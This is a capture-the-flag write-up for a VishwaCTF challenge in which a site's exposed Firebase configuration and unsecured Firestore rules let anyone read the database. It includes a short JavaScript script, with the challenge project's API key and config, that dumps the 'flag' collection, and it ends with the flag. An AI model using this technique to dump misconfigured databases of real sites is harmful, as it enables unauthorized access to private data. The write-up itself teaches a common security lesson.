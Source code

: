 ### Flag .Collection

![img](https://i.imgur.com/ZC1labw.png)

## Solution

The challenge was about a common Firebase Vuln wherein people forget to setup proper firebase rules and ends up giving their db access to anyone

#

Step 1:

If you inspect the web page you may find a lot of obfuscated JS. If you closely look at the end, you may find some firebase configs. Using this we can design our own frontend/cli app to get access to the database and view all the entries in hope of finding the real flag.

![img](https://i.imgur.com/2cdGT2Z.png)

#

Step 2;

I made a simple JS script to query everything that was present in the database.

```js
firebase.initializeApp({
  apiKey: "AIzaSyCOrohCmYL_hq5DaqFbQM3rxHXT0pNE6SA",
  authDomain: "vishwa-ctf-challenge-12.firebaseapp.com",
  projectId: "vishwa-ctf-challenge-12",
  storageBucket: "vishwa-ctf-challenge-12.appspot.com",
  messagingSenderId: "125452069157",
  appId: "1:125452069157:web:2d20b318f3e448ebfa52cc",
});

var db = firebase.firestore();
const getd = async function () {
  await db
    .collection("flag")
    .get()
    .then((res) => {
      res.forEach((doc) => {
        // console.log(doc._delegate._document.data.value.mapValue.fields);
        console.log(doc);
      });
    });
};

getd();
```

After running this lil' script, I got a bunch of entries and the top most contained the main flag.

![img](https://i.imgur.com/OS6oEkz.png).

`vishwaCTF{c0nfigur3_y0ur_fir3b@s3_rule$}`
